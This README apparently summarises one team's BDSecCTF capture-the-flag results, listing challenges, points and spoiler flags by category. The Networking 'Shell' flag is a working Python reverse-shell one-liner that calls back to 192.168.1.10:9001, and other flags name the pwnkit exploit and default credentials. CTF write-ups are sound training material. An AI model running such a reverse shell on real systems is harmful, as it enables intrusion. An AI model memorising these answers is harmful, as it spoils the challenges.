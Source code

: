 # BDSecCTF - Write Up

## Context
The goal is to solve cybersecurity tests in various categories. The validation of a challenge is done by retrieving a string called flag which confirms the fact that you have passed the associated test and allows you to obtain the associated points.

## Rules
- Time : 24h (07/20/22 17h - 07/21/22 17h (UTC+2) )
- Max Pers per Team : 5
- Submit Limit : 30 per chall

## Results 
<p align='center'>

| ![Screenshot](Stats.png)            | ![Screenshot](Scoreboard.png)                                                                                                           |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
</p>

## Challenges

### Steganography

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
| Sound's Good ✘|50||``|
| Deep Dive Into It !! ✘|250||``|

### PWN

| Chall Name|Points|Goal|Flag|
|----------|:--:|:-:|:-:|
| PwnRace ✔|200||``|

### Reverse

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
| BDSec License Checker 0x1 ✘|50|| <details><summary>`Spoiler`</summary>`BDSEC{l1c3n53_ch3ck3r_0x1_2022}`</details> |
| shashdot ✘|50|| `` |
| Flag Box ✔|100|| `` |
| Simple Math ✔|100|| `` |
| Poster ✔|100|| `` |
| BDSec License Checker 0x03 ✘|150|| <details><summary>`Spoiler`</summary>`BDSEC{iTs_lIcEnsE_cHeCker_tHrEE_bDsEc}`</details> |
| BDSec License Checker 0x02 ✘|200||``|

### Cryptography

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|Crypto Code ✔|25||<details><summary>`Spoiler`</summary>`BDSEC{cryp70_and_pyth0n_ar3_aw3s0me}`</details> |
|[VIPx01 ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/VIPx01)|25|| <details><summary>`Spoiler`</summary>`BDSEC{crypt0_ar3_aw3s0m3}`</details> |
|VIPx02 ✘|25||<details><summary>`Spoiler`</summary>`BDSEC{crypt0_ar3_aw3s0m3_&_try_t0_1earn_crypt0}`</details> |
|[Fake ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Fake)|50||<details><summary>`Spoiler`</summary>`BDSEC{do3sn't_b3li3ve_1n_unkn0wn_mail}`</details> |
|[Basically RSA ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Basically%20RSA)|100||<details><summary>`Spoiler`</summary>`DSEC{r54_i5_fUn_r16h7?}`</details> |
|Dominoes ✘|50||<details><summary>`Spoiler`</summary>`BDSEC{n0t_50_e45y_hUh?_433}`</details> |
|Loop Lover ✘|100||<details><summary>`Spoiler`</summary>`BDSEC{ju57_L00p_m3_4w4y}`</details> |

### Web

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|Jungle Templating ✔|100||<details><summary>`Spoiler`</summary>`BDSEC{Y3Y_7H1515_7H3_F146}`</details> |
|Awesome Note Keeping ✔|100|| <details><summary>`Spoiler`</summary>`BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}`</details> |
|Knight Squad Shop ✔|100|| <details><summary>`Spoiler`</summary>`BDSEC{mummy_i_can't_write_javaScript}`</details> |

### Programming

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Find The Cost ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Programming/Find%20the%20Cost)|100|Create an algorithm to calculate the shortest path from a matrix|<details><summary>`Spoiler`</summary>`BDSEC{35,47}`</details> |

### OSINT

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Find The Masterpiece](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20The%20Masterpiece) ✔|50|Turn numbers into tone and find the associated music|<details><summary>`Spoiler`</summary>`BDSEC{he’s_a_pirate,2003}`</details> |
|[Find Rejvi ✔](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20Rejvi)|70|Find a person’s profile on social media|<details><summary>`Spoiler`</summary>`BDSEC{yoU_goT_m3__oS1nT_I5_fUn_r1Gh7}`</details> |


### Misc

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Message of Hufflepuff ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Misc/Message%20of%20Hufflepuff)                     |50||<details><summary>`Spoiler`</summary>`BDSEC{Huffm@n_Enc0d1ng_go7_D3COD3D}`</details> |
|Find Me Inside ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{M33m_the_butterfly_goes_up_up_and_away}`</details> |

### Networking

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|Victim & Attacker ✔|25||<details><summary>`Spoiler`</summary>`BDSEC{192.168.1.13_192.168.1.10}`</details> |
|Which FTP ? ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{vsFTPd_3.0.3}` |
|FTP Creads ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{ftpadmin_ftpadmin}`</details> |
|Uploaded File ✔|50|| <details><summary>`Spoiler`</summary>`BDSEC{/files/.hacker.not}`</details> |
|Log Filer ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{vsftpd.log}`</details> |
|Project Incharge ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{Mark}`</details> |
|Loooon Looong ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{Thu_Jul_14_10:16:59}`</details> |
|Administrator ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{demo,demo}` |
|Shell ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'}`</details> |
|Secret Key ✔|50|| <details><summary>`Spoiler`</summary>`BDSEC{2jo3t12nv51w1pw4wk1kj58s1jb6w0}`</details> |
|Database Admin ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{root_root}`</details> |
|HostName ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{ftpadmin}`</details> |
|CodeName ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{xenial}`</details> |
|Server Info ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{Ubuntu_16.04.1_LTS_Xenial_Xerus}`</details> |
|Service Exploit ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{polkit}`</details> |
|Exploit Exploit Exploit ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{pwnkit}`</details> |
|Vulnerable Service ✔| 50||<details><summary>`Spoiler`</summary>`BDSEC{pkexec}` |
|msg.txt ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{The_Server_Is_Now_under_My_Control_:D_:D}`</details> |
|Attacker ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{N4N0M473}`</details> |
|Server User's ✔ |50||<details><summary>`Spoiler`</summary>`BDSEC{8}`</details> |  

**Total : 46 Challenges ( 3220 Points )**
 
Credits : [Beel0w](https://github.com/Beel0w)  
Last Edited on: 22/07/2022
  
